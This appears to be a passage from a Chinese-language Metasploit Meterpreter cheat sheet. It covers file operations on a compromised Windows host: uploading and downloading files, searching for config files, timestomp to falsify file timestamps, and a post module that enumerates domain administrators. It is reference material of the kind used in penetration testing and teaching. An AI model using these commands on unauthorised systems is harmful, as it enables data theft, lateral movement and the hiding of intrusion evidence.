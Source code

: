 
## 文件操作

**操作文件系统**
```bash
ls                  # 列出当前路径下的所有文件和文件夹.
pwd/getwd           # 查看当前路径
search              # 搜索文件,使用 search -h 查看帮助.
cat                 # 查看文件内容,比如 cat test.txt.
edit                # 编辑或者创建文件.和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况.
rm                  # 删除文件.
cd                  # 切换路径.
mkdir               # 创建文件夹.
rmdir               # 删除文件夹.
getlwd/lpwd         # 查看自己系统的当前路径.
lcd                 # 切换自己当前系统的目录.
lls                 # 显示自己当前系统的所有文件和文件夹.
```

**上传和下载**
```bash
upload [file] [destination]         # 上传文件到 Windows 主机
# 注意:使用 -r 参数可以递归上传上传目录和文件

download [file] [path to save]      # 从 windows 主机下载文件
# 注意:Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

**搜索文件**
```bash
search -f *config*
```

**改变文件时间**
```bash
timestomp -v a.txt                  # 查看 a 的时间戳
timestomp a.txt -f b.txt            # 使用 b 的时间覆盖 a 的时间
```

---

## 横向

**域管理员嗅探**

```bash
use post/windows/gather/enum_domain
set session 1
exploit
```

---

## 端口转发和内网代理
